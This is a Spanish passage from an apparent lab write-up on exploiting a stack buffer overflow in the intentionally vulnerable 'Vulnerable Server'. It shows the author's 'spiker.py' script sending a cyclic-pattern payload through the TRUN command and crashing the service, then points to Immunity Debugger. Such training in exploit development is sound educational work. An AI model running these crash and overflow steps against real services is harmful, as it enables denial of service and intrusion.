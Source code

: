 Mandamos el payload utilizando mi script:
```bash
python3 spiker.py --ip-addr 192.168.1.100 --port 9999 --payload "Aa0Aa1Aa2Aa3Aa4Aa5...
[+] Conectando a 192.168.1.100:9999...

[+] Recibiendo Banner: 
------
Welcome to Vulnerable Server! Enter HELP for help.

------

[*] Payload Enviado: b'TRUN /.:/Aa0Aa1Aa2Aa3....

[!] No hay respuesta, el servidor podría haber crasheado.

[+] Cerrando conexión.
```

Observa el resultado en el **Immunity Debugger**:

<p align="center">
<img src="/assets/images/THL-writeup-pila/Captura19.png">
</p>
